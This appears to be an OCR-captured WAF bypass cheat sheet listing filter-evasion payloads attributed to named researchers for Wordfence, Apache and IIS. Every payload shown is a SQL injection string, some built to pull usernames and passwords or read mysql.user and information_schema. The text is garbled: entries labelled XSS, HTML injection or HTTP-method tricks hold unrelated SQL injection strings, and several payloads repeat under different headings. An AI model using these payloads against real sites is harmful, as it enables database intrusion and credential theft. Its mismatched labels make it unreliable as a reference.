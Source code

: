 XSS Bypass by @Aatif Khan (v4.1)

```
1'UNION/*!0SELECT user,2,3,4,5,6,7,8,9/*!0from/*!0mysql.user/*-
```

SQLi Bypass by @ZeQ3uL

```
amUserId=1 union select username,password,3,4 from users
```

### **Wordfence**

XSS Bypass by @brute Logic

```
amUserId=1 union select username,password,3,4 from users
```

XSS Bypass by @0xInfection

```
%0Aselect%200x00,%200x41%20like/*!31337table_name*/,3%20from%20information_schema.tables%20limit%201
```

HTML Injection by @Voxel

```
%0Aselect%200x00,%200x41%20like/*!31337table_name*/,3%20from%20information_schema.tables%20limit%201
```

XSS Exploit by @MustLive (>= v3.3.5)  

```
1%0bAND(SELECT%0b1%20FROM%20mysql.x)
```

Other XSS Bypasses

```
1%0bAND(SELECT%0b1%20FROM%20mysql.x)
```

### **Apache Generic**

Writing method type in lowercase by @i_bo0om

```
%40%40new%20union%23sqlmapsqlmap...%0Aselect%201,2,database%23sqlmap%0A%28%29
```

### **IIS Generic**  

Tabs before method by @i_bo0om

```
%40%40new%20union%23sqlmapsqlmap...%0Aselect%201,2,database%23sqlmap%0A%28%29
```
